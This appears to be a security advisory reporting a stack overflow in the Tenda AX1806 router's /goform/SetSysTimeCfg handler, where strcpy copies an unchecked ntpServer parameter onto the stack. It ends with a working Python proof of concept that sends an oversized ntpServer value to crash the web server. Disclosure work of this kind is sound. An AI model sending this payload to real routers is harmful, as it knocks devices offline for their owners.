 Affect device: Tenda Router AX1806 v1.0.0.1(https://www.tenda.com.cn/download/detail-3306.html)

Vulnerability Type: Stack overflow

Impact: Denial of Service(DoS)

# Vulnerability description

This vulnerability lies in the `/goform/SetSysTimeCfg` page which influences the lastest version of Tenda Router AX1806 v1.0.0.1: https://www.tenda.com.cn/download/detail-3306.html



There is a stack overflow vulnerability in the `fromSetSysTime` function.

The `v4` variable is obtained directly from the http request parameter `ntpServer`.

This function uses strcpy to copy the **variable v4 to the stack variable &v33[16]** without any sercuity check.

Attacker can construct **a long ntpServer parameter** in the http request,which causes stack overflow.

![image-20220208184212635](image/1.png)

So attacker can perform **denial of service attacks by causing tdhttpd to crash.**

# POC

Poc to crash：



```python
import requests

url = "https://192.168.2.1/goform/SetSysTimeCfg"

ntpserver = b"a"*0x10000
timeType = "sync"
r = requests.post(url, data={"timeType" : timeType ,"ntpServer" : ntpserver},verify=False)
print(r.content)
```

